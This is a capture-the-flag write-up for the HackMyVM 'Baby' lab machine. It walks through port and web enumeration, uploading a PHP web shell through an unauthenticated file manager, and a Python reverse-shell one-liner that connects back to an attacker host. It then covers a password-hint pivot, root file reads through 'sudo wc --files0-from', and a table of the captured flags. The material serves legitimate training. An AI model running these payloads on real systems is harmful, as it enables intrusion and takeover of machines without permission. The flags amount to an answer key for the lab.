


# Baby — HackMyVM Writeup

**Platform:** HackMyVM  
**Difficulty:** Easy  
**IP:** 172.20.10.3  

---

## Reconnaissance

```bash
nmap -sV -p- 172.20.10.3
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3
80/tcp open  http    Apache httpd 2.4.62
```

Two ports open: SSH and HTTP. Let's enumerate the web server.

```bash
ffuf -u http://172.20.10.3/FUZZ -w common.txt
```

```
index.php    [Status: 200]
```

Navigating to `http://172.20.10.3/index.php` reveals a **simple PHP file manager** .



---

## Foothold — RCE via File Upload

The file manager allows unauthenticated file uploads. We upload a simple PHP web shell:

```php
<?php system($_GET['cmd']); ?>
```

Saved as `123.php`. Confirm RCE:

```
http://172.20.10.3/123.php?cmd=id
```

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



Upgrade to a reverse shell:

```bash
# Listener
nc -lvnp 4242

# Payload (URL-encoded in browser)
python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("172.20.10.4",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

Stabilize the shell:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo; fg
```

---

## Privilege Escalation — www-data → aaa

Checking `/etc/passwd` reveals a hint in the GECOS field:

```
aaa:x:1001:1001:pa**wd -> root:/home/aaa:/bin/bash
```

The description suggests the password is `root`:

```bash
su aaa
# password: root
```

Success.

---

## Privilege Escalation — aaa → root

```bash
sudo -l
```

```
User aaa may run the following commands on Baby:
    (ALL) NOPASSWD: /usr/bin/wc
```

`wc` can be abused with the `--files0-from` flag. This flag tells `wc` to read a file and treat its contents as a null-separated list of filenames to process. Since the flag value (the actual flag string) doesn't exist as a file, `wc` helpfully prints it in the error message — giving us arbitrary file read as root.

```bash
# Read root flag
sudo wc --files0-from /root/root.txt
```

```
wc: 'flag{root-7ed9295c3bdb1aaf2b427b64942b40fb}': No such file or directory
```


```bash
sudo wc --files0-from /home/bbb/user.txt
```

```
wc: 'flag{user-b8694d827c0f13f22ed3bc610c19ec15}': No such file or directory
```

---

## Flags

| Flag | Value |
|------|-------|
| User | `flag{user-b8694d827c0f13f22ed3bc610c19ec15}` |
| Root | `flag{root-7ed9295c3bdb1aaf2b427b64942b40fb}` |